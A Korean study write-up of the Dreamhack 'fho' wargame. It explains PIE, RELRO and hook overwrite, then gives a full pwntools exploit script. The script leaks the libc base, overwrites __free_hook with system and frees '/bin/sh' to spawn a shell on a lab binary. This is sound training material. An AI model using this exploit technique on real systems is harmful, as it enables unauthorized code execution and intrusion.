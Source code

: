 - **상대 참조(Relative Addressing)**: 어떤 값을 기준으로 다른 주소를 지정하는 방식
- **Position Independent Code (PIC)**: 어떤 주소에 매핑되어도 실행 가능한 코드. 절대 주소를 사용하지 않으며 일반적으로 `rip`를 기준으로 한 상대 주소를 사용함.
- **Position Independent Executable (PIE)**: 어떤 주소에 매핑되어도 실행 가능한 실행 파일. PIE의 코드는 모두 PIC이다. 자체적으로 보호 기법은 아니지만 ASLR이 적용된 환경에서는 시스템을 더욱 안전하게 만드는 효과가 있음. 최신 gcc는 기본적으로 PIE 컴파일을 함.
- **Partial Overwrite**: 어떤 값을 일부분만 덮는 공격 방법. PIE를 우회하기 위해 사용될 수 있음.

//

- RELocation Read-Only(RELRO): 불필요한 데이터 영역에 쓰기 권한을 제거함.
- Partial RELRO: `init array`, `fini array` 등 여러 섹션에 쓰기 권한을 제거함. Lazy binding을 사용하므로 라이브러리 함수들의 GOT 엔트리는 쓰기가 가능함. GOT Overwrite등의 공격으로 우회가 가능함.
- Full RELRO: `init array`, `fini array` 뿐만 아니라 GOT에도 쓰기 권한을 제거함. Lazy binding을 사용하지 않으며 라이브러리 함수들의 주소는 바이너리가 로드되는 시점에 바인딩됨. `libc`의 malloc hook, free hook과 같은 함수 포인터를 조작하는 공격으로 우회할 수 있음.

//

fho 워게임

```bash
$ checksec fho
[*] '/home/hhro/dreamhack/fho'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

그동안 배운 모든 보호 기법이 적용.

## **코드 분석**

- L16:L19 매우 큰 스택 버퍼 오버플로우가 발생합니다. 그러나 알고 있는 정보가 없으므로 카나리를 올바르게 덮을 수 없고, 반환 주소도 유의미한 값으로 조작할 수 없습니다. 스택에 있는 데이터를 읽는 데 사용할 수 있을 것입니다.
- L21:L27 주소를 입력하고, 그 주소에 임의의 값을 쓸 수 있습니다.
- L29:L32 주소를 입력하고, 그 주소의 메모리를 해제할 수 있습니다.

## **공격 수단**

공격자는 다음 세 가지 수단(Primitive)을 이용하여 셸을 획득해야 합니다.

[1] 스택의 어떤 값을 읽을 수 있다.

[2] 임의 주소에 임의 값을 쓸 수 있다.

[3] 임의 주소를 해제할 수 있다.

## **1. 라이브러리의 변수 및 함수들의 주소 구하기**

`__free_hook` , `system` 함수, `“/bin/sh”` 문자열은 libc 파일에 정의되어 있으므로, 주어진 libc 파일로부터 이들의 오프셋을 얻을 수 있습니다.

## **2. 셸 획득**

앞서 익스플로잇에 필요한 변수와 함수의 주소를 구한 후 에서 `__free_hook` 의 값을 `system` 함수의 주소로 덮어쓰고, 에서 `“/bin/sh”` 를 해제(free)하게 하면 `system(“/bin/sh”)` 가 호출되어 셸을 획득할 수 있습니다.

# **익스플로잇 🎮**

## **1. 라이브러리의 변수 및 함수들의 주소 구하기**

`main` 함수의 반환 주소인 `libc_start_main+x`를 릭하여 libc 베이스 주소를 구하고 변수 및 함수들의 주소를 계산해보겠습니다.

`main` 함수는 라이브러리 함수인 `__libc_start_main`이 호출하므로, `main` 함수의 스택 프레임에는 `__libc_start_main+x`로 돌아갈 반환 주소가 저장되어 있을 것입니다. `__libc_start_main+x`는 libc 영역 어딘가에 존재하는 코드이므로, `__libc_start_main+x`의 주소를 릭한 후 해당 값에서 `libc_start_main+x`의 오프셋을 빼는 방식으로 프로세스 메모리에 매핑된 libc의 베이스 주소를 계산할 수 있습니다.

먼저 다음과 같이 gdb로 바이너리를 열고 `main` 함수에 중단점을 설정한 후 실행합니다. `main` 함수에서 멈추었을 때, 모든 스택 프레임의 백트레이스를 출력하는 `bt` 명령어로 `main` 함수의 반환 주소를 알아낼 수 있습니다.

```python
#!/usr/bin/env python3
# Name: fho.py

from pwn import *

p = process('./fho')
e = ELF('./fho')
libc = ELF('./libc-2.27.so')

def slog(name, addr): return success(': '.join([name, hex(addr)]))

# [1] Leak libc base
buf = b'A'*0x48
p.sendafter('Buf: ', buf)
p.recvuntil(buf)
libc_start_main_xx = u64(p.recvline()[:-1] + b'\x00'*2)
libc_base = libc_start_main_xx - (libc.symbols['__libc_start_main'] + 231)
# 또는 libc_base = libc_start_main_xx - libc.libc_start_main_return
system = libc_base + libc.symbols['system']
free_hook = libc_base + libc.symbols['__free_hook']
binsh = libc_base + next(libc.search(b'/bin/sh'))

slog('libc_base', libc_base)
slog('system', system)
slog('free_hook', free_hook)
slog('/bin/sh', binsh)

# [2] Overwrite `free_hook` with `system`
p.recvuntil('To write: ')
p.sendline(str(free_hook).encode())
p.recvuntil('With: ')
p.sendline(str(system).encode())

# [3] Exploit
p.recvuntil('To free: ')
p.sendline(str(binsh).encode())

p.interactive()
```

쉘획득

- **Hooking**: 어떤 함수, 프로그램, 라이브러리를 실행하려 할 때 이를 가로채서 다른 코드가 실행되게 하는 기법. 디버깅, 모니터링, 트레이싱에 사용될 수 있으며, 공격자에 의해 키로깅이나 루트킷 제작에 사용될 수 있음.
- **Hook Overwrite**: 바이너리에 존재하는 훅을 덮어써서 특정 함수를 호출할 때, 악의적인 코드가 실행되게 하는 공격 기법. 메모리 관리와 관련된 `malloc`, `free`, `realloc`등의 함수가 라이브러리에 쓰기 가능한 훅 포인터를 가지고 있어서 공격에 사용될 수 있음. Full RELRO를 우회하는 데 사용될 수 있음.
- **원 가젯(one-gadget):** 실행하면 셸이 획득되는 코드 뭉치. **david942j**가 만들어놓은 툴을 사용하면 libc의 버전마다 유효한 원 가젯을 쉽게 찾을 수 있음.

![fho.jpg](https://github.com/JoWoonJi/Dreamhack_Wargame/blob/main/SystemHacking/img/fho.jpg)

플래그 획득
